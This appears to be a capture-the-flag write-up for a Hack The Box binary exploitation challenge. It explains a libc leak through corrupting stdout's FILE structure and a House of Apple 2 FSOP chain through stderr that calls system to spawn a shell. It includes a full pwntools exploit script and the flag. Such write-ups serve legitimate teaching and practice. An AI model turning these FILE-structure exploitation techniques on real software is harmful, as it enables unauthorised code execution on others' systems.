


## Challenge Description

```
The nightmares started the night she cracked the Corroded Crown open. Rin remembers the forge's relics glowing wrong in her hands, remembers making that sanctified mechanism swallow a lie and call it truth, and remembers, less clearly, something rising back through the same crack once the tolerances gave. Maelor never left the Signet's fire whole. Some scorched piece of him must have ridden the wrong truth she fed the forge straight into her, because it has been talking to her ever since, quiet at first, close enough to her own voice that it took weeks for Rin to learn where she ended and it began. Veylen calls what he's built the Emptiness Machine, an old Registry working that lets a mind step outside its own head into a space empty enough to see the echo clearly, and maybe cut it loose. He can open the working. He can't walk it for her. Inside, there's no lock, no door, only two currents of herself running side by side, and whichever one she turns against the voice first is the one that gets her out clean. Veylen's ink keeps the seal steady from the outside. Everything past that line is hers alone, and she has to decide how much of herself she's willing to rewrite to be free of a dead king's voice.
```

---

## Initial Recon

```
$ pwn checksec the_emptiness_machine
[*] '/root/CTF/HTB/CA2026/pwn/The_Emptiness_Machine/challenge/the_emptiness_machine'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'./glibc/'
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:    No
```

No canary. The bundled libc is version 2.39:

```
$ strings glibc/libc.so.6 | grep "GLIBC"
GNU C Library (Ubuntu GLIBC 2.39-0ubuntu8.7) stable release version 2.39.
```

---

## Analysis

The decompiled `main` is remarkably small:

```c
void main(void)
{
  setbuf(stdin, (char *)0x0);
  setbuf(stdout, (char *)0x0);
  puts(" ");
  printf("[");
  __isoc99_scanf("%40s", stdout);
  printf("\n");
  __isoc99_scanf("%224s", stderr);
  return;
}
```

The first `scanf` writes up to 40 bytes directly into `stdout`. The second writes up to 224 bytes directly into `stderr`.

---

## Stage 1 - Libc Leak via stdout Corruption

The idea is to manipulate `stdout`'s FILE structure so it leaks memory on its next flush. The number of bytes `stdout` writes is calculated as:

```
_IO_write_ptr - _IO_write_base
```

By zeroing the LSB of `_IO_write_base`, it points slightly earlier in memory, causing `stdout` to print extra bytes that are already in the buffer, resulting in a libc leak.

We also set the flags from `0xfbad2887` to `0xfbad3887` (enabling `_IO_IS_APPENDING`). This is necessary because without it, the flush path checks whether `_IO_write_base == _IO_read_end`. Since we overwrite `_IO_read_end`, this condition would fail. With `_IO_IS_APPENDING` set, the check is skipped entirely.

Since `scanf` appends a null byte, we send one byte less and let the null byte zero the LSB of `_IO_write_base` for us:

```python
leak_via_stdout = p64(0xfbad3887) + b"\x00" * 0x18
```

Before the write:

```
0x7f3e8fc045c0 <_IO_2_1_stdout_>:       0x00000000fbad2887      0x00007f3e8fc04643
0x7f3e8fc045d0 <_IO_2_1_stdout_+16>:    0x00007f3e8fc04643      0x00007f3e8fc04643
0x7f3e8fc045e0 <_IO_2_1_stdout_+32>:    0x00007f3e8fc04643      0x00007f3e8fc04643
```

After:

```
0x7f3e8fc045c0 <_IO_2_1_stdout_>:       0x00000000fbad3887      0x0000000000000000
0x7f3e8fc045d0 <_IO_2_1_stdout_+16>:    0x0000000000000000      0x0000000000000000
0x7f3e8fc045e0 <_IO_2_1_stdout_+32>:    0x00007f3e8fc04600      0x00007f3e8fc04643
```

The LSB of `_IO_write_base` was zeroed (`0x643` - `0x600`), and the subsequent `printf()` triggers a flush that leaks libc pointers



---

## Stage 2 - FSOP via stderr (House of Apple 2)

The second `scanf` writes up to 224 bytes (0xE0) into `stderr`. Since glibc 2.39 has vtable validation checks, we use House of Apple 2 for the FSOP chain.

The main constraint is that 224 bytes is not enough to construct a separate `_IO_wide_data` struct (which requires 0xE8 bytes). The solution is to overlap `_wide_data` with `stderr` itself by setting:

```
_wide_data = stderr - 0x20
```

This way, `_IO_wide_data` fields are read directly from within the `stderr` struct that we already control.

When `main` returns, `exit` walks the open FILE structs and calls overflow on each one, which is what fires our forged vtable.

Setting the vtable to `_IO_wfile_jumps` passes vtable validation, so the overflow call lands in `_IO_wfile_overflow`. Since `_wide_data->_IO_write_base == 0`, it calls `_IO_wdoallocbuf`, which in turn calls `_IO_WDOALLOCATE(fp)` and dereferences `fp->_wide_data->_wide_vtable + 0x68`. We control `_wide_vtable` (at stderr + 0xC0) and point it to `stderr + 0x28 - 0x68`, so that `_wide_vtable + 0x68 = stderr + 0x28`. At `stderr + 0x28` (`_IO_write_ptr`) we place the address of `system`, so the final call is `system(fp)`. Since the flags field starts with `\x01\x24\xad\xfb;sh\x00`, the shell interprets `;sh` and spawns a shell.

In summary:

```
_IO_flush_all_lockp -> _IO_wfile_overflow (via vtable = _IO_wfile_jumps) -> _IO_wdoallocbuf -> _IO_WDOALLOCATE(fp) -> system(fp)
```

---

## Full Exploit

```python
from pwn import *

io = remote("154.57.164.66", 32570)

context.arch = 'amd64'
libc = ELF("./glibc/libc.so.6")

# Libc Leak via stdout

leak_via_stdout = p64(0xfbad3887) + b"\x00" * 0x18

io.sendlineafter(b"interaction:", leak_via_stdout)
libc.address = u64(io.recvline().strip()[:8].ljust(8, b"\x00")) - 0x204644
log.success(f"Libc Base: {hex(libc.address)}")

# FSOP via stderr (House of Apple 2)

system = libc.symbols['system']

fsop = FileStructure()
fsop.flags = u64(b'\x01\x24\xad\xfb;sh\x00')

fsop._IO_read_ptr = 1
fsop._IO_read_end = 0x0
fsop._IO_write_base = 0x0
fsop._IO_write_ptr = system
fsop._IO_write_end = 0
fsop._IO_buf_base = 1
fsop.chain = libc.symbols['_IO_2_1_stderr_']
fsop._lock = libc.address + 0x204000
fsop._wide_data = libc.symbols['_IO_2_1_stderr_'] - 0x20
fsop.vtable = libc.symbols['_IO_wfile_jumps']

fsop = bytes(fsop)

# Offset 0xC0: _wide_vtable pointer
stderr_addr = libc.symbols['_IO_2_1_stderr_']
wide_vtable_ptr = stderr_addr + 0x28 - 0x68
fsop = fsop[:0xC0] + p64(wide_vtable_ptr) + fsop[0xC8:]

io.sendlineafter(b"interaction:", fsop)

io.interactive()
```

---

## Flag



```
HTB{f4ll1ng_4_th3_pr0m1s3_0f_th3_3mptin355_m4ch1ne :)_68f68ead463c988c822b014ba9e695d0}
```


If you notice any inaccuracies or mistakes in this writeup, please feel free to contact me. I’d be happy to clarify or correct any information.
